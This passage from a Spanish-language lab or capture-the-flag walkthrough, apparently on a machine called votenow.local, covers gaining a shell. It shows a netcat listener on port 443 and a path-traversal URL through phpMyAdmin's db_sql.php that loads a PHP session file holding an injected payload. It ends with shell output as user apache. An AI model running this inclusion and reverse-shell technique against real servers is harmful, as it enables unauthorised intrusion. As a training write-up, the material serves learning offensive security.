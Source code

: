 ![cookie_payload.png](cookie_payload.png)

Nos ponemos en escucha por el puerto 443 con:

```bash
> nc -nlvp 443
```

Con la cookie de sesión y el payload inyectado en los logs de sesión de php entramos la siguiente URL:

http://datasafe.votenow.local/index.php?target=db_sql.php%253f../../../../../../../../var/lib/php/session/sess_tn6qlv1hli0dse8nnsf866f8gkemo9j6

y nos da acceso a la máquina! Tras el tratamiento de consola esto es lo que vemos:

```bash
Erase set to delete.
Kill set to control-U (^U).
Interrupt set to control-C (^C).
bash-4.2$ export TERM=xterm
bash-4.2$ hostname -i
192.168.1.142
bash-4.2$ whoami
apache
bash-4.2$ 
```
